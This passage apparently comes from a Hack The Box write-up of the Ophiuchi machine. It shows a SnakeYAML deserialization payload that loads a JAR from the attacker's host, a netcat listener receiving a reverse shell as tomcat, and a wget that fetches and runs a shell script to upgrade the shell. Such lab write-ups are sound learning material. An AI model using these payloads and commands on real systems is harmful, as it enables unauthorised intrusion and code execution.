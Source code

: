 ```default
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.16/yaml-payload.jar"]
  ]]
]
```

![](images/Pasted%20image%2020210914144700.png)

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.227] 58508
whoami
tomcat

```

## Upgrading the Shell
I was having trouble upgrading to a pty shell by using a bash one liner, so I instead wrote my code to a file and transferred it over to the machine and ran that instead. 

```default
wget http://10.10.14.16/shell.py
--2021-09-14 18:52:47--  http://10.10.14.16/shell.py
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 35 [text/plain]
Saving to: ‘shell.py’

     0K                                                       100% 4.16M=0s

2021-09-14 18:52:47 (4.16 MB/s) - ‘shell.py’ saved [35/35]

python3 shell.py
tomcat@ophiuchi:/tmp$ ^Z
[1]+  Stopped                 nc -nvlp 4444
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ stty raw -echo
nc -nvlp 4444ocuments/CTF/HTB/Machines/Ophiuchi$ 

tomcat@ophiuchi:/tmp$ export TERM=xterm
tomcat@ophiuchi:/tmp$ 
```
